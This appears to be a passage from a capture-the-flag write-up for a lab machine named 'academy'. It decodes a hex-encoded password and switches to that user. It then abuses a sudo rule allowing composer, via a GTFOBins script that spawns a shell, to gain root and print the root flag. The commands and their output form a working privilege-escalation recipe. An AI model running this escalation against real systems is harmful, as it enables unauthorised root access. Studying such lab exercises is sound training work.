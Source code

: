 ```
$ printf %s '6D7262336E5F41634064336D79210A' | xxd -r -p
mrb3n_Ac@d3my!
```

## Privilege Escalation of Machine : from mrb3n to mrb3n

`mrb3n` is a sudoer:

```
$ su  mrb3n
Password: mrb3n_Ac@d3my!

$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)

$ sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

So let's check a GTFO for that one:

```
$ gtfoblookup update
$ gtfoblookup linux sudo composer
composer:

    sudo:

        Code: TF=$(mktemp -d)
              echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}'
              >$TF/composer.json
              sudo composer --working-dir=$TF run-script x
```

So let's do that:

```
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}'>$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
                                              sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
    id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
                    cat /root/root.txt
9ba239e4f7e863aeaec4558360d77078
```
